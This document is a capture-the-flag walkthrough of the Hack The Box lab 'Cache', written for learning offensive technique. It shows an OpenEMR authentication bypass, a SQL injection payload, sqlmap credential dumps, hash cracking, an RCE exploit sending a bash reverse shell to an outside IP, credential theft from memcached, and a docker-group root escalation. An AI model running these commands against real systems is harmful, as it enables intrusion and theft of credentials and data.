


# Cache
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.188 --min-rate 5000 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-30 16:53 GMT
Nmap scan report for 10.10.10.188 (10.10.10.188)
Host is up (0.17s latency).
Not shown: 64028 filtered tcp ports (no-response), 1505 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 91.28 seconds

```
```
└─$ nmap -Pn -p22,80,2201 -sC -sV 10.10.10.188
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 15:59 GMT
Nmap scan report for 10.10.10.188 (10.10.10.188)
Host is up (0.22s latency).

PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp   open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Cache
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.02 seconds
                                                              
```

- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.188/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error  

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.188/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 8193]
/news.html            (Status: 200) [Size: 7235]
/.php                 (Status: 403) [Size: 277]
/login.html           (Status: 200) [Size: 2421]
/contactus.html       (Status: 200) [Size: 2539]
/author.html          (Status: 200) [Size: 1522]
/net.html             (Status: 200) [Size: 290]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.188/javascript/]

```

- Login form return weird response




- If we check javascript source for that page, since there were no requests in `Burp`, we can the creds are hard coded
  - We have creds `ash:H@v3_fun`


- But the page has nothing interesting


-`vhosts`
```
└─$ wfuzz -u http://cache.htb/ -H 'Host: FUZZ.cache.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 973
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cache.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000689:   400        12 L     53 W       422 Ch      "gc._msdcs" 
```
## Foothold
- We saw a hint on `author` page about checking out other products
  - For example, `HMS(Hospital Management System)`
  - If we assume that it's hosted on the same box, we could try to try `hms.cache.htb` and `hms.htb` vhosts
  - The second one actually works


- It's a `OpenEMR`
  - Creds for `ash` don't work


- Based on `2018 OpenEmr` at the bottom, google shows vulnerability `< 5.0.14`
  - We have `rce` but we need credentials


- We also have `Authentication Bypass` in the list
  - Let's start with that
  - There is also [report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) which we can use to enumerate the application
  - Visting `http://hms.htb/admin.php` shows that it's a `5.0.1.3` version


- The `Auth bypass` works if registration page enabled
  - We can visit pages that are only accessible after registration
    - All we have to do is to visit registration page first, then the page we want to see
    - https://www.exploit-db.com/exploits/50017
  - From the report we can see that there is a section `3.2 - SQL Injection in add_edit_event_user.php`
    - I'll grab a payload from there
    - And since this page is in the list that I can access using `Auth bypass`, I see the results right away
      - `http://hms.htb/portal/add_edit_event_user.php?eid=1%20AND%20EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))`


- Knowing that this page is vulnerable, I will run `sqlmap` after saving the request in  `Burp`
```
└─$ sqlmap -r sqli.req --batch                                                                   
<SNIP>
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (6227=6227) THEN 1 ELSE (SELECT 2160 UNION SELECT 3127) END))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x7170717871,(SELECT (ELT(7606=7606,1))),0x716b706271),7606)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 7961 FROM (SELECT(SLEEP(5)))Ccfj)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170717871,0x47506b536867545963774f71744555566268494f6f444142574b5473584e77694f6654736f714f73,0x716b706271),NULL-- -
---
<SNIP>
```

- Since we need creds, let's dump them
```
└─$ sqlmap -r sqli.req --batch -D openemr --tables      
<SNIP>
[18:43:48] [INFO] fetching tables for database: 'openemr'
Database: openemr
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| log                                   |
<SNIP>
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
<SNIP>
```
```
└─$ sqlmap -r sqli.req --batch -D openemr -T users_secure --dump
<SNIP>
Database: openemr
Table: users_secure
[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | <blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | <blank>  | 2019-11-21 06:38:40 | <blank>       | <blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
<SNIP>
```

- Crack it using `hashcat`
```
└─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt      
hashcat (v6.2.6) starting
<SNIP>

$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                          
<SNIP>
```

- Let's try to get a reverse shell using `RCE` exploit
```
└─$ python2.7 45161.py -u openemr_admin -p xxxxxx -c 'bash -c "bash -i >& /dev/tcp/10.10.16.4/6666 0>&1"' http://hms.htb
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```



## User #1
- We can `su` to `ash` using creds we found
```
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su - ash
Password: 
ash@cache:~$ 
```

## User #2
- `netstat`
```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -         
```

- We have a port `11211` open, which usually belongs to `memcached`

```
ash@cache:~$ ps auxww | grep 11211
memcache   974  0.0  0.0 425792  4008 ?        Ssl  17:32   0:01 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
ash       3573  0.0  0.0  13136  1040 pts/0    S+   19:07   0:00 grep --color=auto 11211

```

- Let's enumerate it
  - https://book.hacktricks.xyz/network-services-pentesting/11211-memcache
  - https://www.hackingarticles.in/penetration-testing-on-memcached-server/
```
ash@cache:~$ echo "stats items" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 48
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 52
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 485
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
ash@cache:~$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```
- `user` and `passwd` look interesting
```
ash@cache:~$ echo "get user" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE user 0 5
luffy
END
ash@cache:~$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

- `su` as `luffy`
```
ash@cache:~$ su - luffy
Password: 
luffy@cache:~$ 
```
## Root
- `luffy` is in `docker` group
```
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

- Let's check if there are any containers or images
```
luffy@cache:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        4 years ago         64.2MB
luffy@cache:~$ 
```
```
luffy@cache:~$ docker run -v /:/mnt -i -t ubuntu bash
root@6531616deb70:/# 
```